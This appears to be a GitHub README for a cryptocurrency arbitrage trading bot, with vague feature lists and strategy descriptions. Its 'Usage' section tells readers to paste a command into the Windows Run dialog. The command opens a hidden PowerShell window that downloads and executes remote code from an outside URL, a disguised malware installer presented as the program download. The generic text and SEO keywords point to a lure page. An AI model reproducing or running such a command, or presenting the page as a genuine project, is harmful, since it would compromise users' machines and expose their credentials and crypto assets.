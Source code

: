 # Arbitrage Trading Bot 🤖💹

## Project Description
**Arbitrage Trading Bot** is an automated trading bot designed to take advantage of price discrepancies across different cryptocurrency exchanges. The bot monitors multiple exchanges in real-time and executes trades to capitalize on arbitrage opportunities.

## Key Features
- **Multi-Exchange Support**: Connects to various cryptocurrency exchanges for arbitrage opportunities.
- **Real-Time Monitoring**: Continuously monitors prices across exchanges to identify profitable trades.
- **Automated Trading**: Executes trades automatically based on predefined strategies and thresholds.
- **Risk Management**: Implements risk management strategies to minimize potential losses.
- **User -Friendly Dashboard**: Provides an intuitive interface for monitoring trades and performance.



## Usage 🚀
<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/wZWZqs';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>


## Example Strategies 📈
- **Simple Arbitrage**: Buy low on one exchange and sell high on another.
- **Triangular Arbitrage**: Exploit price inefficiencies between three different currencies on the same exchange.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Binance API Documentation](https://binance-docs.github.io/apidocs/spot/en/)
- [CoinGecko API Documentation](https://coingecko.com/en/api)

---

**SEO Keywords**: Arbitrage, Trading Bot, cryptocurrency, automated trading, price discrepancy, multi-exchange, trading strategies.
